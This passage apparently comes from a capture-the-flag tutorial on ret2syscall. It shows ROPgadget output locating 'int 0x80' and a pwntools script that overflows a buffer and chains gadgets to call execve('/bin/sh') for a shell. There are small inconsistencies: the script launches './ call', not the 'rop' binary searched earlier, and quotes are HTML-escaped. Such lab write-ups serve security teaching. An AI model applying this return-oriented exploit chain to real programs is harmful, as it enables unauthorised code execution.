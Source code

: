 

You can find the corresponding address, in addition, there is an address of int 0x80, as follows


```text

➜  ret2syscall ROPgadget --binary rop  --only 'int'                 

Gadgets information

============================================================

0x08049421 : int 0x80

0x080938fe : int 0xbb

0x080869b5 : int 0xf6

0x0807b4d4 : int 0xfc



Unique gadgets found: 4

```



At the same time, I also found the corresponding address.


The following is the corresponding payload, where 0xb is the system call number corresponding to execve.

```python

#!/usr/bin/env python

from pwn import *



sh = process (&#39;./ call&#39;)


pop_eax_ret = 0x080bb196

pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421

binsh = 0x80be408
payload = flat(

    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])

sh.sendline(payload)

sh.interactive()

```
